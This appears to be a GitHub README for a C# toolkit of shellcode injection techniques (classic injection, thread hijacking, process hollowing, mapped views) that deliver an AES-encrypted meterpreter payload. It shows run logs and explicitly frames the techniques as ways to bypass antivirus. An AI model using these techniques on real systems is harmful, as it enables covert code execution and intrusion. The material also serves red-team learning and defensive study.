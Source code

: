 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. All techniques use an AES encrypted meterpreter payload.

I will be building this project up as I learn, discover or develop more techniques.

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

## Classic Injection
[ClassicInjection.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

## Thread Hijacking
[ThreadHijack.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

## Process Hollowing
[ProcessHollow.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

## Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/plackyhacker/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

## Notes
Remember you will need to start a process to inject to, except when using Process Hollowing (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
